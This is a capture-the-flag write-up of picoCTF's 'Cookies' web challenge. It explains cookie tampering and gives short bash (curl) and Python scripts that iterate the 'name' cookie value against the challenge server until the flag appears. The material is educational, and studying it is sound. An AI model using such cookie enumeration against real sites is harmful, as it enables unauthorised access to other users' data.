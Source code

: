 ```yaml
---
tags:
  - web-exploitation
points: 40 points
---
```


[<-- Web Exploitation Write-ups](../writeup-list.md)

# Cookies

## Write-up
##### Concept Coverage :
This challenge is an introduction to the concepts of [web HTTP cookies](https://www.cloudflare.com/learning/privacy/what-are-cookies/) . 

##### Following are the steps for the challenge: 
1. We are given the link to URL hosted website which takes type of cookie as an input and responds with a text.
    
    ![cookie-website](./assets/cookie-website.png)
    
2. Since the name of the challenge is `Cookies` lets take a look at the website's cookie. We notice that there is only one cookies
    
    ![cookie-list](./assets/cookie-list.png)
    
3. Lets input the sample text `snickerdoodle` . As soon as we click on `Search` button we see that the cookie value gets updated. Upon searching for other types of cookies I selected the following to try `Chocolate Chip`, `Butter` and `Gingerbread` . I noticed we get different value in the `name` Web cookie for each of them
    
    ![chocolate-chip](./assets/chocolate-chip.png)
    
    ![butter](./assets/butter.png)
    
    ![gingerbread](./assets/gingerbread.png)
    
4. From the above observation we can assume that each integer value in `name` web cookie is tied to a different output. It is possible we have our flag as one of the value.
   
5. So I wrote a bash script to iterate through the different value for `name` web cookie and see if I can find anything with `picoCTF{` or `cookies!` pattern since thats the line that gives the output. At the time of solving I ran it from `0` to `100` but since I have solved it I have restricted it to the sample space of `10` to `30` (This was at the time of writing but this might change and you might have to use a different range).
    
    ![flag](./assets/flag.png)
    
    Here is the `find-flag.sh` used in above screenshot :
   
```bash
#! /bin/bash
for var in {10..30}
do
  echo "Trying name=$var"
  curl -s "http://mercury.picoctf.net:21485/check" --cookie "name=$var" | grep -E "cookies!|picoCTF{" 
done
```

6. You can leverage any program to cycle through the value or even you can do it manually through browser by updating value and refreshing the page. I have attached the python code as well.
   
```python 
import requests
for i in range(25):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    r = requests.get('http://mercury.picoctf.net:21485/check', headers=headers)
    if ('picoCTF' in r.text):
        print(r.text)
        print("Flag found in web cookie name={}".format(i))
        break

```
